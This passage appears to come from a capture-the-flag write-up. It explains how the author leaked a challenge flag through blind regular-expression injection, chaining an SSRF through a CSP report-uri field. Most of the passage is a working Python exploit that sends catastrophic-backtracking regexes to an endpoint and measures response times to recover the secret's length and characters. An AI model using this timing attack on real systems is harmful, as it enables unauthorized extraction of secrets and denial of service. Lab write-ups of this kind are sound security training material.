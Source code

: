 Is there a way we can get information about `env.FLAG` while controlling only `secret`? 

It turns out we can use complex regexes and the response time give us information about whether we got partial of the secret correctly. If you wanna learn more about this vulnerability I suggest you read: [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/) . It explains this in great detail.

Using this technique we can bruteforce the flag character by character, using our SSRF to call the endpoint.

Here is the script I ended up using, mostly by modifying a PoC from the aforementioned blog post.

```py
import requests
import random
import string
import re

ENDPOINT = "http://139.59.189.31:30334"
INITIAL = "HTB{"

# constants
THRESHOLD = 2

# predicates
def length_is(n):
    return ".{" + str(n) + "}$"

def nth_char_is(n, c):
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities
def redos_if(regexp, salt):
    return "^(?={})(((.*)*)*)*{}".format(regexp, salt)

def get_request_duration(payload):
    payload = {
        "csp": "img-src https: data:;foobar-src 'foobar'; report-uri http:\\\/127.0.0.1:1337/deactivate?secretCode={}".format(payload)
    }

    r = requests.post(ENDPOINT + "/api/evaluate", json=payload)
    print(r.elapsed.total_seconds())
    return r.elapsed.total_seconds()

def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD

def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])

# exploit
if __name__ == '__main__':
    # generating salt
    salt = generate_salt()
    while not prop_holds('.*', salt):
        salt = generate_salt()
    print("[+] salt: {}".format(salt))
    
    # leak length
    upper_bound = 100
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i            
    print("[+] length: {}".format(secret_length))
```